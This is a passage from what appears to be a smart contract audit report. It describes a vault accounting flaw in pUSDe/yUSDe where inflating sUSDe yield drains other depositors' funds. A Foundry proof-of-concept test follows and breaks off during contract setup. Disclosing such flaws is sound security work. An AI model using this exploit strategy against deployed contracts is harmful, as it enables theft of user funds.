 This in turn causes `depositedBase` to be further decremented until it is eventually tends to zero, impacting all functionality that relies of the overridden `totalAssets()`. Given that it is possible to inflate the sUSDe yield by either transferring USDe directly or waiting to sandwich a legitimate yield accrual (since `sUSDe::previewRedeem` does not account for the vesting schedule) this allows an attacker to completely devastate the pUSDe/yUSDe accounting, redeeming their yUSDe for close to the entire protocol sUSDe balance at the expense of all other depositors.

**Impact:** Significant loss of user funds.

**Proof of Concept:**
```solidity
pragma solidity 0.8.28;

import {Test} from "forge-std/Test.sol";
import {ERC1967Proxy} from "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";
import {IERC4626} from "@openzeppelin/contracts/interfaces/IERC4626.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

import {MockUSDe} from "../contracts/test/MockUSDe.sol";
import {MockStakedUSDe} from "../contracts/test/MockStakedUSDe.sol";
import {MockERC4626} from "../contracts/test/MockERC4626.sol";

import {pUSDeVault} from "../contracts/predeposit/pUSDeVault.sol";
import {yUSDeVault} from "../contracts/predeposit/yUSDeVault.sol";

import {console2} from "forge-std/console2.sol";

contract CritTest is Test {
    uint256 constant MIN_SHARES = 0.1 ether;

    MockUSDe public USDe;
    MockStakedUSDe public sUSDe;
    pUSDeVault public pUSDe;
    yUSDeVault public yUSDe;

    address account;

    address alice = makeAddr("alice");
    address bob = makeAddr("bob");

    function setUp() public {
        address owner = msg.sender;

        // Prepare Ethena and Ethreal contracts
        USDe = new MockUSDe();
        sUSDe = new MockStakedUSDe(USDe, owner, owner);

        // Prepare pUSDe and Depositor contracts
        pUSDe = pUSDeVault(
            address(
                new ERC1967Proxy(
                    address(new pUSDeVault()),
                    abi.encodeWithSelector(pUSDeVault.initialize.selector, owner, USDe, sUSDe)
                )
            )
        );

        yUSDe = yUSDeVault(
            address(
                new ERC1967Proxy(
                    address(new yUSDeVault()),
                    abi.encodeWithSelector(yUSDeVault.initialize.selector, owner, USDe, sUSDe, pUSDe)
                )
            )
```